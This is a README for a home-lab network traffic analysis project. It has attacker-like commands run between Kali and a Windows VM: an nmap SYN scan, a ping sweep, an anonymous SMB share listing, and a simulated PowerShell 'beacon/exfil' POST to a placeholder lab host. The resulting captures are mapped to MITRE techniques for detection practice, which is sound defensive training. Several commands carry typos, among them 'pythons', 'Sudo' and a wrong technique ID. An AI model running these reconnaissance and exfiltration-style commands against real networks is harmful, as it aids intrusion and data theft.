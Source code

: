  ## ⛓ Network Traffic Analysis (Kali + Windows)
 ### Objective
Capture and analyze network traffic for common attacker behaviors (scan, beacon/HTTP exfil, ICMP sweep, SMB touch) and document detections.

### Lab Topology
- Put Kali and Windows on the same **Host-Only** or Internal network in your hypervisor (Please see Image 1.1 & 1.2 within the Screenshots folder).
- Find IPs (Please see Image 1.3 & 1.4 within the Screenshots folder:
   + Kali: `ip a` (note interface like eth0 or ens33)
     + Kali (attacker/analyst): `<KALI_IP>`
   + Windows: `ipconfig`
     + Windows 10 VM (victim): `<WIN_IP>`

### Tools
- tcpdump / Wireshark (packet capture) (Please see Image 2 within the Screenshots folder)
  + **Kali:**
   ```Bash
   sudo apt update
   sudo apt install -y wireshark tcpdump zeek nmap curl
   ```
  + **Windows:** install **Wireshark (optional) and ensure **PowerShell** is available.

    **Note:** capture on Kali (attacker) while you generate traffic between Kali ↔ Windows.
- Zeek (pcap → structured logs)
- (Optional) Splunk (search/visualize Zeek logs)

### First capture
This is the **Baseline** capture.
1. Method 1: On Kali (replace `eth0` with your interface):

```Bash

Sudo tcpdump -i eth0 -w baseline .pcap
```
Leave this running while you generate traffic (next section). Press **Ctrl+C** to stop and write the file.


2.  Using Wireshark (my preffered option)
Start **Wireshark** on Kali → select your interface → click start (blue shar icon) → later click Stop (red square) → Save as `baseline.pcap`. 


### Scenarios
We’ll do 4 useful, resume-worthy scenarios. Run each while capturing (new pcap per scenario), then stop capture after each.

1. Port scan → `scan_windows.pcap` (MITRE T1046)
On **Kali:**

```bash
Sudo nmap -sS -T4 -p 1-1024 <WINDOWS_IP>

```

Save capture as `scan_windows.pcap`.
**MITRE:** Discovery (T1046 - Network Service Discovery)
  
2. HTTP beacon/exfil → `http_exfil.pcap` (T1071.001, T1041)
On **Kali**, start a mini web server:

```bash
pythons -m http.server 8000

```

On Windows (PowerShell), send a fake “beacon/exfil” POST:

```powershell

Invoke-WebRequest -Uri "http://<KALI_IP>:8000/upload" -Method POST -Body "sample=hello&user=victim1"
Start-Sleep -Seconds 5
Invoke-WebRequest -Uri "http://<KALI_IP>:8000/beat"   -Method GET

```

Stop capture → save as `http_exfil.pcap`.
**MITRE:** Command & Control (T1071.001 - Web Protocols), Exfiltration (T1041 - Exfil over C2 channel)

3. ICMP sweep → `icmp_sweep.pcap` (T1018)
On **Kali** (pick your /24):

```bash

sudo nmap -sn <YOUR_SUBNET>/24

```

Save as `icmp_sweep.pcap`.
**MITRE:** Discovery (T108 - Remote System Discovery)

4. SMB touch → `smb_touch.pcap` (T1135)
From **Kali** (non-auth listing may fail harmlessly but still generates traffic):

```bash
smbclient -L //<WINDOWS_IP>/ -N

```
Save as `smb_touch.pcap`.
**MITRE:** Discovery (T1135 - Network Share Discovery), Lateral Movement (surface only)
Tip: Keep pcaps <50-100 MB; if larger, zip them.

### How to Reproduce
See `reports/NTA_Methodology.md` for exact commands and Wireshark filters.

### Findings
- `reports/Findings_scan.md`
- `reports/Findings_http.md`
- `reports/Findings_icmp.md`
- `reports/Findings_smb.md`

### Evidence
- `pcaps/` (captured traffic)
- `zeek/` (parsed logs)
- `screenshots/` (Wireshark/Splunk)
